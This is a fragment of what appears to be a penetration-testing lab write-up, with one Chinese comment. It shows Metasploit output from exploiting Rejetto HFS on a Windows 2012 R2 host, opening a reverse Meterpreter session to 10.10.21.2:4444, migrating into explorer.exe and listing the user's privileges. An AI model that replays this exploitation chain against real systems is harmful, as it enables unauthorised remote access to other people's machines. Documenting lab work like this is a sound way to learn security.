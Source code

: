 ```
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /6ZFwgw
[*] Sending stage (175174 bytes) to 10.0.28.179
[*] Meterpreter session 1 opened (10.10.21.2:4444 -> 10.0.28.179:49263) at 2022-09-28 15:26:27 +0530
[!] Tried to delete %TEMP%\vFLEE.vbs, unknown result
[*] Server stopped.

meterpreter > 

```

当前用户是admin。

```
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > pgrep explore
2712
meterpreter > migrate 2712
[*] Migrating from 1996 to 2712...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```
